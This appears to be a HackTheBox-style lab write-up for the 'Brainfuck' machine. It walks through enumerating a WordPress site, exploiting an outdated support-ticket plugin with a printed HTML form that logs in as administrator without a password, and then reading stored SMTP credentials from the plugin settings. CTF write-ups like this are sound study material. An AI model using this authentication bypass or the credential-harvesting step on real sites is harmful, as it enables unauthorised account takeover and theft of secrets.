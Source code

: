 # 10 - Brainfuck

# Web Server

![](vx_images/5462397826319.png)


# Certificate review (DNS and Email Records)

![](vx_images/1774113268796.png)


# Brainfuck.htb

![](vx_images/3363908615411.png)


# Super Secret Forum

![](vx_images/1952032941162.png)


# Wordpress


![](vx_images/5795105889566.png)


# Wordpress is running an older version of wp-support-plus-responsive-ticket-system and there is an exploit on exploit-db. See [05 - Enumeration.md](05%20-%20Enumeration.md) for the wpscan output

![](vx_images/4423908546209.png)


# Exploit
```html
<form method="post" action="http://wp/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="administrator">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```


![](vx_images/3030523092687.png)

After a while this empty page is loaded 

![](vx_images/1100272907031.png)



Let's go to the index page now

![](vx_images/1203132871357.png)


On the top of the page we can see the admin bar, we are in fact logged in without providing any password


# SMTP integration

On the index page it has a post about SMTP integration, and because of that integration we can obtain the credentials from **Settings** -> **Easy WP SMTP**

![](vx_images/385247492897.png)

Let's unhide the password by changing the **input type** from password to username or we can just grab the value while we are at it

![](vx_images/5435062618733.png)